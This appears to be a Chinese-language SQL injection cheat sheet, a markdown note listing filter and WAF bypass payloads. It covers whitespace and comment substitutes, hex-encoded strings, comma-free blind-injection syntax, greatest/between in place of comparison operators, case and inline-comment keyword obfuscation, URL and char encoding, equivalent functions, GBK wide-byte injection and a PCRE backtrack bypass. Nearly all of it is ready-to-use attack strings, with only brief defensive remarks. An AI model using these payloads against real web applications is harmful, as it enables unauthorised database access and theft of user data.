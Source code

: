 # SQL注入

## 1.注入payload

## 2.Bypass

### 2.1.空格绕过

#### 2.1.1.注释符绕过空格

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

### 2.1.2.括号绕过

```mysql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

### 2.2.引号过滤绕过

使用`hex`绕过

```mysql
/* 过滤 */
select column_name  from information_schema.tables where table_name="users"
/* 绕过 */
select column_name  from information_schema.tables where table_name=0x7573657273
```

### 2.3.逗号绕过（**使用from或者offset**）

#### 2.3.1. from to

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用`from to`的方式来解决：

```mysql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

#### 2.3.2. join

```mysql
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

####  2.3.3. like

```mysql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

### 2.3.4.limit过滤(offset绕过)

```mysql
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0
```

### 2.3.5.比较符号（<>）绕过（between)：

#### 2.3.5.1 greatest()、least（）

（前者返回最大值，后者返回最小值）

　　同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到`greatest`来进行绕过了。

最常见的一个盲注的sql语句：

```mysql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```

　　此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用`greatest`来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。

那么上面的这条sql语句可以使用`greatest`变为如下的子句:

```
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

#### 2.3.5.2. between and

between a and b：

between 1 and 1; 等价于 =1

### 2.3.6.or and xor not绕过

```
and=&&  or=||   xor=|   not=!
```

### 2.3.7 绕过注释符号（#，--(后面跟一个空格））过滤：

```sql
id=1' union select 1,2,3||'1

最后的or '1闭合查询语句的最后的单引号，或者：

id=1' union select 1,2,'3
```

### 2.3.8.=绕过

　使用`like` 、`rlike` 、`regexp` 或者 使用`<` 或者 `>`

### 2.3.9.绕过union，select，where等：

#### （1）使用注释符绕过：

　　常用注释符：

```
//，-- , /**/, #, --+, -- -, ;,%00,--a
```

用法：

```
U/**/NION /**/ SE/**/ LECT /**/user，pwd from user
```

#### （2）使用大小写绕过：

```
id=-1'UnIoN/**/SeLeCT
```

#### （3）内联注释绕过：

```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

#### （4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：

```
id=-1'UNIunionONSeLselectECT1,2,3–-
```

### 2.3.10.通用绕过（编码）

　　如URLEncode编码，ASCII,HEX,unicode编码绕过：

```
or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。
```

### 2.3.11.等价函数绕过

```sql
hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir()

举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　

或者：
substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
```

### 2.3.12.宽字节注入

过滤 ' 的时候往往利用的思路是将 ' 转换为 \' 。

　　在 mysql 中使用 GBK 编码的时候，会认为两个字符为一个汉字，一般有两种思路：

　　（1）%df 吃掉 \ 具体的方法是 urlencode('\) = %5c%27，我们在 %5c%27 前面添加 %df ，形成 %df%5c%27 ，而 mysql 在 GBK 编码方式的时候会将两个字节当做一个汉字，%df%5c 就是一个汉字，%27 作为一个单独的（'）符号在外面：

```
id=-1%df%27union select 1,user(),3--+
```

　　（2）将 \' 中的 \ 过滤掉，例如可以构造 %**%5c%5c%27 ，后面的 %5c 会被前面的 %5c 注释掉。

#### 一般产生宽字节注入的PHP函数：

  1.replace（）：过滤 '\ ，将 ' 转化为 \\' ，将 \  转为 \\\，将 " 转为 \\" 。用思路一。

  2.addslaches()：返回在预定义字符之前添加反斜杠（\）的字符串。预定义字符：' , " , \ 。用思路一（防御此漏洞，要将 mysql_query 设置为 binary 的方式）

　 　3.mysql_real_escape_string()：转义下列字符：

```
\x00     \n     \r     \     '     "     \x1a
```

（防御，将mysql设置为gbk即可）

### 2.3.13 PCRE绕过：

`union/*'+'a'*1000001+'*/select`